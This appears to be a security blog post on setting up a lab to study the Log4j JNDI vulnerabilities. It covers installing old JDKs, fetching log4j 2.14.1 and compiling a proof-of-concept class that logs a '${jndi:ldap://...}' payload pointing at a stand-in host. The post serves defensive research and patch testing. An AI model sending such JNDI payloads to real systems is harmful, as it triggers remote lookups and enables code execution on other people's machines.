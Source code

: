```yaml
---
title: Building a Research Environment for Log4j
date: 2023-03-03T20:35:05+00:00
tags: 
  - Apache
  - DNS resolver
bg_image: /assets/images/posts/image-4.png
author:
    name: '@saldat0'
    url: https://x.com/saldat0
---
```

With its widespread adoption rate and the challenge enterprises face with tracking down where it is being used, log4j would likely continue to be a relevant attack vector for quite a long time. Because of this, we decided to showcase how one would go about building a local lab that could be used both for developing and testing an exploit, as well as help to confirm and adapt remedial actions.

For background, whenever we refer to the Apache log4j vulnerability, we mean the following CVEs:

-   CVE-2021-44228
-   CVE-2021-45046
-   CVE-2021-45105

## 1\. Building the Vulnerable Server

Due to the many conditions and elements included in this vulnerability, which significantly influence the impact and the possible steps for remediation, we found that to be able to test and obtain realistic results that can then confidently be relied on, we had to be very precise when setting up the environment. For example, the version of JDK, the version of log4j, the operating system, the running DNS resolver services, the log4j configuration file, the Java configuration file, the environment variables, as well as what other libraries are being included in the application can all make the exploitation and patching of this issue slightly different.

And because of this, it is important to make sure that all the software matches the one of the target application. To that end, in this article, you will see that we pay particular attention not only to the version of log4j but also to Java as it also plays an important role in the exploit.

We will cover three different ways of building a vulnerable server:

### **Docker Container**

Start right away with Docker, which is by far the easiest to set up. OpenJDK (an open-source implementation of the Java Platform, Standard Edition) offers [all the versions of Java](https://hub.docker.com/_/openjdk) that you may need; ready to be downloaded and used.

Keep in mind that JDK versions greater than 6u211, 7u201, 8u191, and 11.0.1 are not affected by the LDAP attack vector. In these versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to *false* meaning JNDI cannot load remote code using LDAP. However, the vulnerability is still exploitable using other methods, such as [beanfactory](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

In the example below you will see how easy it is to download JDK 8u171 and jump right into it:

![](/assets/images/posts/image-13.png)

### **Linux Virtual Machine**

Alternatively, if you prefer to set up the testing environment directly on a Linux server, it is still relatively easy. You can go to the [Java SE archive](https://secariolabs.com/building-a-research-environment-for-log4j/o%09https:/www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html) and select the version of Java that you need (we recommend the tar.gz format).

Once the version is downloaded, it is just a matter of extracting the archive, as shown below:

```bash
user@ubuntu:~/poc$ ll -Ah
total 183M
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ tar zxvf jdk-8u171-linux-x64.tar.gz
[...snip...]

user@ubuntu:~/poc$ ll -Ah
total 183M
drwxr-xr-x 8 user user 4.0K Mar 28  2018 jdk1.8.0_171/
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -version
java version "1.8.0_171"
Java(TM) SE Runtime Environment (build 1.8.0_171-b11)
Java HotSpot(TM) 64-Bit Server VM (build 25.171-b11, mixed mode)

```

### **Windows Virtual Machine**

Unlike the previous two options, downloading Java on Windows system without actually installing it, is slightly more involved. It all starts the same way: by downloading the wanted version of Java from the [Java SE archive](https://www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html), but then rather than installing it we will have to do a few steps.

As initially described by [Igor on Stack Overflow](https://stackoverflow.com/questions/1619662/how-can-i-get-the-latest-jre-jdk-as-a-zip-file-rather-than-exe-or-msi-installe):

**Step 1:** Download and install [7zip](https://www.7-zip.org/download.html)

**Step 2:** Unarchive the executable "jdk-XuXX-windows-x64.exe" with 7zip, as shown below:

![](/assets/images/posts/image-14-1024x392.png)

**Step 3:** Run `extrac32 111` within the `.rsrc\1033\JAVA_CAB10` folder, as shown below:

![](/assets/images/posts/image-15.png)

**Step 4:** Extract the "tools.zip" archive in the same folder using 7zip

**Step 5:** Run `for /r %x in (*.pack) do .\bin\unpack200 -r "%x" "%~dx%~px%~nx.jar"` within the newly created "tools" folder, as shown below:

![](/assets/images/posts/image-16.png)

**Step 6:** Recursively copy the contents of the "tools" folder to a location where JDK would be located; in the screenshot below the new folder would be `C:\jdk-8u171`.

![](/assets/images/posts/image-17.png)

**Step7:** Verify that Java has been installed successfully:

![](/assets/images/posts/image-18.png)

## 2\. Building the Vulnerable Application

With a working server, the next step would be to download the version of log4j that would be used for testing. This could be achieved by downloading the (tar.gz or zip) library from [Apache's archive](https://archive.apache.org/dist/logging/log4j/).

In our case, that was version 2.14.1 of log4j, as shown below:

```bash
user@ubuntu:~/poc$ wget -q https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ tar zxf apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ ls -l apache-log4j-2.14.1-bin/log4j-{api,core}-2.14.1.jar
-rw-r--r-- 1 user user  300364 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar
-rw-r--r-- 1 user user 1745701 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar

```

Once that is completed, the next step is to either recreate the application you are targeting, or a simple dummy one where you can work on the attack. A short piece of code that would be able to invoke the vulnerability has been included below:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class POC {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(POC.class);
        logger.error("${jndi:ldap://example.com/z}");
    }
}
```

To compile the script, it is important to include both the "core" and the "api" libraries:

```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/javac -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar POC.java
```

To run the script, it is once again required to include both libraries as well as the current folder:

```
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:. POC
14:27:56.562 [main] ERROR POC - ${jndi:ldap://example.com/z}

```

*Note that the vulnerable application hangs once executed, as an LDAP request is being made in the background and it will need to timeout.*

## 3\. Testing the Proof-Of-Concept

At this point, the last element needed to complete the basic research environment would be to obtain visibility over the network traffic. Ideally, that would be done with a custom LDAP/DNS/RMI server that would be able to provide a clear indication of the request and any metadata it carries, as well as control over what data is sent back to the vulnerable application; however, some of that could be achieved with a simple packet analyser that can show if a request is being made, even if nothing is sent back. For a lot of the cases that should be enough to prove if the application is (still) vulnerable.

We would recommend Wireshark as it will be easy to see the different protocols and it is very intuitive to apply filters (unlike tcpdump). With it running (do not forget to execute it with elevated privileges), listening on all interfaces, you should be able to rerun the POC script and see the network traffic, as shown below:

![](/assets/images/posts/image-19.png)

That concludes our small testing environment for log4j. In our next blog post, we would focus more on exploiting the vulnerability and research different patching methods.